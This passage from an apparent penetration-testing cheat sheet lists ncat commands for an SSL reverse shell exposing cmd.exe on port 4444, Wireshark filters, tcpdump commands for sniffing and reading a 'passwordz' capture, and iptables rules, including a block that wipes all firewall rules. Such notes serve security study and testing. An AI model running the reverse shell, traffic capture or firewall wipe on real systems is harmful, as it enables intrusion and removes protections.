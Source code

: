     -   Reverse shell from windows using cmd.exe using ssl
        `ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl`

    -   Listen on port 4444 using ssl
        `ncat -v $ip 4444 --ssl`

-   Wireshark
    -   Show only SMTP (port 25) and ICMP traffic:

        `tcp.port eq 25 or icmp`

    -   Show only traffic in the LAN (192.168.x.x), between workstations and servers -- no Internet:

        `ip.src==192.168.0.0/16 and ip.dst==192.168.0.0/16`

    -   Filter by a protocol ( e.g. SIP ) and filter out unwanted IPs:

        `ip.src != xxx.xxx.xxx.xxx && ip.dst != xxx.xxx.xxx.xxx && sip`

    -   Some commands are equal

        `ip.addr == xxx.xxx.xxx.xxx`

         Equals

        `ip.src == xxx.xxx.xxx.xxx or ip.dst == xxx.xxx.xxx.xxx `

        ` ip.addr != xxx.xxx.xxx.xxx`

         Equals

        `ip.src != xxx.xxx.xxx.xxx or ip.dst != xxx.xxx.xxx.xxx`

-   Tcpdump

    -   Display a pcap file
       `tcpdump -r passwordz.pcap`

    -   Display ips and filter and sort
        `tcpdump -n -r passwordz.pcap | awk -F" " '{print $3}' | sort -u | head`

    -   Grab a packet capture on port 80
        `tcpdump tcp port 80 -w output.pcap -i eth0`

    -   Check for ACK or PSH flag set in a TCP packet
        `tcpdump -A -n 'tcp[13] = 24' -r passwordz.pcap`

-   IPTables

    -   Deny traffic to ports except for Local Loopback

        `iptables -A INPUT -p tcp --destination-port 13327 ! -d $ip -j DROP  `

        `iptables -A INPUT -p tcp --destination-port 9991 ! -d $ip -j DROP`

    -   Clear ALL IPTables firewall rules

            ```bash
            iptables -P INPUT ACCEPT
            iptables -P FORWARD ACCEPT
            iptables -P OUTPUT ACCEPT
            iptables -t nat -F
            iptables -t mangle -F
            iptables -F
            iptables -X
            iptables -t raw -F iptables -t raw -X
            ```
